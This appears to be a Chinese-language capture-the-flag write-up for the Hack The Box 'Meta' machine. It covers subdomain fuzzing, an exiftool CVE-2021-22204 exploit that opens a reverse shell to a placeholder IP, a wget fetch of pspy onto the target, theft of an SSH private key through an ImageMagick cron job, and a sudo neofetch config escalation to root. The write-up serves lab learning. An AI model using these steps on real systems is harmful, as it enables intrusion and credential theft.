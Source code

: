   </head>
  <body>
    <h1><a title="Meta-Writeup">Meta-Writeup</a></h1>
    <h2><time>2022-02-18</time></h2>
<h3 id="普通用户">普通用户</h3>

<p>给到了ip，常规nmap扫一下</p>

<pre><code class="language-HTML">nmap -sS -A -sC -sV -p- --min-rate 5000 10.10.11.140</code></pre>
<p><img src="..\images\Meta\nmap.jpg" alt="nmap" /></p>
<p>可以看到一个22端口和80端口，我们修改hosts文件访问artcorp.htb</p>
<img src="..\images\Meta\hosts.png" alt="hosts">
<img src="..\images\Meta\artcorp.png" alt="artcorp.png">
<p>页面看起来没啥，dirsearch,rad啥的都跑了一遍没啥发现。对子域名fuzz一下</p>
<pre><code class="language-HTML">wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.artcorp.htb" --hc 400,302,301 artcorp.htb</code></pre>
<p><img src="..\images\Meta\Fuzz.jpg" alt="Fuzz" /></p>
<p>发现有一个子域dev01,加到hosts里面再访问一下</p>
<img src="..\images\Meta\dev01.png" alt="dev01">
<p>发现是一个图片上传点,上传一个普通图片之后发现这个是exiftool,看看有无漏洞</p>
<pre><code class="language-HTML">searchsploit exiftool</code></pre>

<p>发现一个pdf，在浏览器中查看一下是CVE-2021-22204<del>(原理我就不说了,想了解的自行百度一下吧)</del>。去Git找一下exp : https://github.com/AssassinUKG/CVE-2021-22204</p>

<p>找一个正常图片放到exp目录运行一下</p>
<pre><code class="language-HTML">./CVE-2021-22204.sh "reverseme YourIP YourPort" 图片</code></pre>
<img src="..\images\Meta\exiftool.png" alt="exiftool">
<p>nc监听一下本地端口，然后上传图片,收到shell,用python换一下shell</p>
<pre><code class="language-HTML">python3 -c 'import pty;pty.spawn("/bin/bash")'</code></pre>
<img src="..\images\Meta\shell.png" alt="shell">
<p><code>cat /etc/passwd|grep bash</code>查看用户。可以看到thomas下面有user.txt但是读取不了。</p>
<img src="..\images\Meta\testgetflag.png" alt="test">
<p>首先使用pspy32尝试监控内存看看是否有异常，首先我们在我们这开一个HTTP<code>python3 -m http.server</code>在nc反弹的shell那用<code>wget http://yourip:yourport/pspy32</code>获取pspy32后赋予权限运行</p>
<img src="..\images\Meta\mogrify.png" alt="mo">
<p>可以看到有一个具有thomas权限的定时任务，查看一下<code>cat /usr/local/bin/convert_images.sh</code></p>

<script>
(function () {
  var headings = document.querySelectorAll('h1,h2,h3,h4');
  for (var i = 0; i < headings.length; i++) {
    var e = headings[i];
    if (e.id) {
      var link = document.createElement('a');
      link.classList.add('anchor');
      link.href = '#' + e.id;
      e.appendChild(document.createTextNode(' '));
      link.appendChild(document.createTextNode('\u00b6'));
      e.appendChild(link);
    }
  }
})();
</script>
    www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
    artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh 
    #!/bin/bash
    cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
    pkill mogrify
  </body>
<p>意思就是在convert_images下面定时运行mogrify。注:mogrify是ImageMagick的一个命令。</p>
<p>我们寻找一下ImageMagick可用的漏洞https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html</p>
<img src="..\images\Meta\poc.png" alt="poc">
<p>这里可以看到poc，稍微修改下,再下载</p>
<img src="..\images\Meta\wait.png" alt="wait">
<p>首先这里可以直接尝试获取<code>/home/thomas/user.txt</code>的内容，我这里选择先获取ssh的私钥，放在<code>/dev/shm/</code>下面是因为shm是临时存放文件的地方，不在硬盘上在内存上，而我们不知道<code>thomas</code>的权限所能写的文件夹是哪些，所以默认选择shm这个文件夹。等待一会。。。。</p>
<img src="..\images\Meta\id.png" alt="id">
<p>可以看到获取到了私钥，我们用同样的办法获取一下<code>authorized_keys</code>将其复制到自己的公钥文件中，即可使用私钥ssh连接getflag。<del>具体原理百度吧</del></p>
<pre><code>ssh thomas@10.10.11.140 -i /root/.ssh/id_rsa</code></pre>
<img src="..\images\Meta\thomasflag.png" alt="thomas">
<h3 id="普通用户">提权</h3>
<p>看一下<code>sudo -l</code></p>
<img src="..\images\Meta\sudo.png" alt="sudo">
<p>看到可以允许neofetch这个命令在不需要密码的情况下运行(不加参数)。</p>
<p>https://www.tecmint.com/neofetch-shows-linux-system-information-with-logo/</p>
<p>通过上面可知neofetch能在终端显示你的系统信息及系统logo，它拥有一个配置文件，配置文件可以写入bash命令并执行</p>
<p>我们尝试在config文件里面写入反弹shell的bash</p>
<img src="..\images\Meta\bashneo.png" alt="neo">
<p>保存退出后修改一下<code>XDG_CONFIG_HOME</code>让以sudo执行时能使用到我们更改的config文件</p>
<code>export XDG_CONFIG_HOME=/home/thomas/.config</code>
<p></p>
<p>注:<code>XDG_CONFIG_HOME</code>是程序在执行时默认读取配置文件的位置，如果没有的话则默认为<code>{$HOME}/.config</code>如果以sudo执行的话默认HOME的位置是root的HOME，所以无法读取到我们修改的config文件</p>
<p>在本机开个监听端口，执行<code>sudo neofetch</code>获得反弹的shell <strong>getflag</strong></p>
<img src="..\images\Meta\rootflag.png" alt="rootflag">

